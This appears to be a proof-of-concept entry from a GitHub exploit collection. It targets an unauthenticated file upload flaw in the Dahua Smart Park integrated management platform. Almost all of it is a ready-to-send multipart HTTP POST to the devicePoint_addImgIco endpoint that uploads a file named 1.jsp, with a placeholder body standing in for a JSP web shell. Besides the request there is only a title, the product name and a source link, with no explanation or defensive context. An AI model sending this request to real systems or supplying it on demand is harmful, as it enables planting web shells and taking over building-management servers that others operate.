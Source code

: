 # dahua_hasSubsystem_fileupload
product: 大华智慧园区综合管理平台

```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
User-Agent: Java/1.8.0_345
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 229
Connection: close

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

123456
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```

from: https://github.com/wy876/POC/blob/main/%E5%A4%A7%E5%8D%8E/%E5%A4%A7%E5%8D%8E%E6%99%BA%E6%85%A7%E5%9B%AD%E5%8C%BA%E7%BB%BC%E5%90%88%E7%AE%A1%E7%90%86%E5%B9%B3%E5%8F%B0hasSubsystem%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md

